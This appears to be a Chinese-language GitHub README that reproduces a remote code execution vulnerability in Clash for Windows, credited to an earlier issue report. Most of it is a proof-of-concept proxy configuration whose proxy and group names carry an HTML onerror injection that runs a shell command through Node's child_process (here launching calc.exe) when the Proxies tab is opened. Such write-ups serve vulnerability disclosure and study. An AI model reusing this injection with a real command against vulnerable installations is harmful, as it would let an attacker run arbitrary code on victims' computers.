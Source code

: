 # Clash_for_Windows-
Clash_for_Windows远程代码执行漏洞
1. clash介绍

A Windows/macOS/Linux GUI based on Clash and Electron.

2. 漏洞复现

原漏洞发现作者pr链接：

https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 里面包含了poc和复现方法。

本次本地复现来源于上述链接！

从以下链接下载Windows版本：
https://github.com/Fndroid/clash_for_windows_pkg/releases

在windows10虚拟机中打开：

2.2 poc

port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    
    
    导入该poc：
    
    
    在当前界面点击：Proxies
    
    
    此时弹出计算器，漏洞利用成功。
